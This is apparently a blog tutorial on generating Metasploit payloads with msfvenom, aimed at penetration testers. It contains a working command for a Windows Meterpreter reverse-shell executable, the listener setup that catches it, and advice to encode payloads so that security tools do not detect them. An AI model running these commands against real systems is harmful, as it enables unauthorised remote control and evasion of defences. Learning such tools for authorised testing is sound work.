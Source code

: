 ```yaml
---
title: Metasploit Payload Generation Crafting Effective Exploits
date: 2024-10-11T17:30:00
image: /blogpics/apipicgen/MetasploitPayloadGenerationCraftingEffectiveExploits-BLVPMRL29T.jpg
categories: ["Cybersecurity"]
featured: false
draft: false
---
```

Metasploit is a powerful framework used for penetration testing and security research. One of its core functionalities is payload generation, which allows security professionals to create effective exploits that can be used to test the security of systems. In this blog post, we will explore the process of crafting effective exploits using Metasploit, focusing on payload generation, types of payloads, and best practices for their use.

## Understanding Payloads

In the context of Metasploit, a payload is a piece of code that is executed on a target system after a successful exploit. Payloads can perform a variety of actions, such as creating a reverse shell, executing commands, or establishing a persistent backdoor. Understanding the different types of payloads available in Metasploit is crucial for crafting effective exploits.

### Types of Payloads

1. **Singles**: These payloads are self-contained and do not require a separate handler. They are typically used for simple tasks, such as executing a command on the target system.

2. **Stagers**: Stagers are small payloads that establish a connection back to the attacker's machine. Once the connection is established, the stager downloads and executes a larger payload. This two-step process is useful for bypassing security measures that may block larger payloads.

3. **Stages**: These are the larger payloads that are delivered by the stager. They can perform complex tasks and are often used in conjunction with stagers to maintain a connection to the target.

4. **Meterpreter**: This is a powerful payload that provides an interactive shell on the target system. Meterpreter allows attackers to execute commands, upload and download files, and perform various post-exploitation tasks.

## Generating Payloads with Metasploit

To generate a payload using Metasploit, you typically use the `msfvenom` tool, which is part of the Metasploit Framework. `msfvenom` allows you to create custom payloads by specifying various options, such as the payload type, encoding, and output format.

### Basic Syntax

The basic syntax for generating a payload with `msfvenom` is as follows:

```bash
msfvenom -p <payload> LHOST=<local_ip> LPORT=<local_port> -f <format> -o <output_file>
```

- `-p <payload>`: Specifies the type of payload to generate (e.g., `windows/meterpreter/reverse_tcp`).
- `LHOST`: The local IP address of the attacker's machine.
- `LPORT`: The local port on which the attacker will listen for incoming connections.
- `-f <format>`: The output format (e.g., `exe`, `elf`, `raw`).
- `-o <output_file>`: The name of the output file.

### Example: Generating a Windows Reverse Shell

To create a Windows reverse shell payload, you can use the following command:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe -o reverse_shell.exe
```

This command generates a Windows executable that, when executed on the target machine, will connect back to the attacker's machine at IP address `192.168.1.10` on port `4444`.

## Setting Up a Listener

Once you have generated your payload, you need to set up a listener on your machine to catch the incoming connection. This is done using the Metasploit console.

1. Start the Metasploit console:

   ```bash
   msfconsole
   ```

2. Use the `multi/handler` module to set up the listener:

   ```bash
   use exploit/multi/handler
   ```

3. Set the payload to match the one you generated:

   ```bash
   set payload windows/meterpreter/reverse_tcp
   ```

4. Configure the local host and port:

   ```bash
   set LHOST 192.168.1.10
   set LPORT 4444
   ```

5. Start the listener:

   ```bash
   exploit
   ```

Now, when the generated payload is executed on the target machine, it will connect back to your listener, providing you with a Meterpreter session.

## Best Practices for Crafting Effective Exploits

1. **Understand the Target Environment**: Before crafting an exploit, gather information about the target system, including its operating system, installed software, and network configuration. This knowledge will help you choose the most effective payload.

2. **Use Encoding**: Many security solutions can detect and block known payloads. To evade detection, consider encoding your payload using the `-e` option in `msfvenom`. For example, you can use `-e x86/shikata_ga_nai` to encode your payload.

3. **Test in a Controlled Environment**: Always test your exploits in a safe, controlled environment, such as a virtual lab. This practice helps you understand how the payload behaves and allows you to refine your approach without risking unintended consequences.

4. **Stay Updated**: The Metasploit Framework is continuously updated with new exploits and payloads. Regularly update your Metasploit installation to take advantage of the latest features and improvements.

5. **Follow Ethical Guidelines**: Always ensure that you have permission to test the systems you are targeting. Unauthorized access to computer systems is illegal and unethical.

## Conclusion

Crafting effective exploits using Metasploit's payload generation capabilities is a critical skill for penetration testers and security researchers. By understanding the types of payloads, mastering the use of `msfvenom`, and following best practices, you can enhance your ability to identify and exploit vulnerabilities in target systems. Remember to always operate within legal and ethical boundaries, and use your skills to improve security rather than compromise it.